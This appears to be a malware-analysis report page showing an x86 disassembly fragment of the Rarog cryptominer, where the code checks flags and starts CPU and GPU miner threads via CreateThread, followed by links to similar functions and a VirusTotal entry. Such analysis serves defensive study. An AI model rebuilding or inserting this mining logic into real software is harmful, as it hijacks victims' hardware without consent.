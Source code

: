mov dword[0x430ae4],ebx
jmp 0x40620f
mov esi,eax
push 2
mov edi,0x428690
pop ecx
xor eax,eax
repe cmpsb byte[esi],byte ptr es:[edi]
jne 0x40620f
mov dword[ebp-0x490],1
jmp 0x40620f
mov esi,eax
push 2
mov edi,0x428690
pop ecx
xor eax,eax
repe cmpsb byte[esi],byte ptr es:[edi]
jne 0x40620f
mov dword[ebp-0x48c],1
lea eax,[ebp-0x49c]
push eax
push ebx
call fcn.0040e0c0
inc dword[ebp-0x484]
pop ecx
pop ecx
push 0xf
pop esi
jmp 0x4061ab
cmp dword[ebp-0x48c],ebx
je 0x406263
sub esp,0x1c
mov ecx,esp
mov dword[ebp-0x488],esp
mov dword[ecx+0x14],esi
mov dword[ecx+0x10],ebx
push str.Rarog___CPU_module_active__start_CPUMinerThread__
mov byte[ecx],bl
call fcn.00401caf
call fcn.0040284c
push ebx
push ebx
push ebx
push 0x40410e
push ebx
push ebx
call dword[sym.imp.KERNEL32.dll_CreateThread]
cmp dword[ebp-0x490],ebx
je 0x40629d
sub esp,0x1c
mov ecx,esp
mov dword[ebp-0x488],esp
mov dword[ecx+0x14],esi
mov dword[ecx+0x10],ebx
push str.Rarog___GPU_module_active__start_GPUMinerThread__
mov byte[ecx],bl
call fcn.00401caf
call fcn.0040284c
push ebx
push ebx
push ebx
push 0x40515c
push ebx
push ebx

[similar_1_ref]: /report/fcn.0041e847@418e0921f3a9bd4f5bc0dcc59623b5a1
[similar_2_ref]: /report/fcn.0040becc@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_3_ref]: /report/fcn.1000a104@a0ac129ff3ea4c0dfa9529c259a9502c
[similar_4_ref]: /report/fcn.004183a4@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_5_ref]: /report/fcn.00406b6f@69b3c79878674ea715338a112bb5caa6
[virustotal_ref]: https://www.virustotal.com/gui/file/69b3c79878674ea715338a112bb5caa6
